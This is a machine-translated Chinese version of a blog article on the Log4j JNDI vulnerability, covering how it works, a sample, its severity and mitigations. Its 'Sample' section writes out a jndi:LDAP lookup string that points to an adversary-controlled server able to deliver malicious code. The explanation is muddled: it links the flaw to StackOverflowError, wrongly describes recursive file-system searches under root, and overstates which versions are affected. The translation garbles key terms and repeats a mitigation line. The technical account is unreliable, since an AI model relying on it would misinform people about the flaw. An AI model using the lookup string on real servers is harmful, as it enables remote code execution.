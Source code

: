 # Apache log4j 漏洞

> 原文：<https://medium.com/nerd-for-tech/apache-log4j-vulnerability-67d00ad56270?source=collection_archive---------3----------------------->

下面的文章假设读者对 Apache log4j 库有一些基本的了解。

这是用于伐木的最著名的阿帕奇图书馆之一。log4j 漏洞已经席卷全球。企业竞相修补 log4j 版本。让我们讨论一下这个问题。

# 什么和如何

在 10000 英尺上，问题与 StackOverflowError 有关。这个问题与一个叫做 **JNDI 和变量外推**的特定功能有关。只有带有上下文查找的**模式布局(例如，$${ctx:loginId})** 容易受到这种攻击。

首先，JNDI 指的是 Java 命名和目录接口，它是一个 API，为使用 Java 编程语言的应用程序提供命名和目录功能。
另一个概念变量外推指的是在运行时如何解析变量的值。

log4j 在日志语句中使用变量外推法来解析变量的值。例如

> **log.debug("这是要揭露的漏洞编号:${vNo}"**

实际记录的语句应该是

> **22/12/2021 13:20 调试这是为了揭露漏洞编号:CVE-2021–44228**

> 现在 JNDI 查找的作用来了。在通过虚拟机或容器部署的企业中，JAVA 应用程序以 root 权限运行。使用 root 权限和 JNDI 尝试在文件系统中递归搜索变量或远程查找，如果变量被修改为错误的值，那么它可以访问文件系统中应受保护的值。

说到这里，我提到了带有上下文查找的**模式布局会出现这个问题(例如，$${ctx:loginId})。** 这里的意思是:**布局**是一种格式，日志事件需要以这种格式形成，以便与消费者处理事件兼容。**模式布局**是一种布局，其中日志语句基于为 log4j 配置的转换字符串。

# 样品

让我们看前面的例子

> **log.debug("这是揭露漏洞号:${vNo}"**

现在，假设我们的应用程序可以控制变量的值。假设 **vNo** 的值来自**jndi:LDAP://my-server . com/getVno**
log4j 将获取该值，并将执行 JNDI 查找来获取该值。假设这个 my-service.com 被对手控制了。现在这个域可以被修改下载一些恶意代码。

# 严重

这被评为**中度**漏洞，后来升级为**严重**。利用此漏洞可以攻击的类型有
1。LCE -本地代码执行
2。RCE -远程代码执行

有一个标准的漏洞评分机制，称为 CVSS 或通用漏洞评分系统。log4j 漏洞的得分为**10/10**，这是最高形式的漏洞。

# 受影响的版本

log4j 2 的所有版本都会受到影响。

# 减轻

[(来自阿帕奇 doc)](https://logging.apache.org/log4j/2.x/security.html)

*   升级到 Log4j 2.3.1(适用于 Java 6)、2.12.3(适用于 Java 7)或 2.17.0(适用于 Java 8 及更高版本)。
*   否则，在 2.16.0 以外的任何版本中，您都可以从类路径中删除 JndiLookup 类:zip -q -d log4j-core-*。jar org/Apache/logging/Log4j/core/lookup/jndilookup . class
    升级到 Log4j 2.3.1(针对 Java 6)、2.12.3(针对 Java 7)或 2.17.0(针对 Java 8 及更高版本)。
    从 2.17.0 版本开始，(以及 Java 7 和 Java 6 的 2.12.3 和 2.3.1)，只递归展开配置中的查找字符串；在任何其他用法中，只解析顶级查找，而不解析任何嵌套查找。

就是这样。因为这个问题的影响是广泛的，所以我想写一篇关于这个话题的文章。希望这些细节能对你有所帮助，如果有任何出入，请告诉我。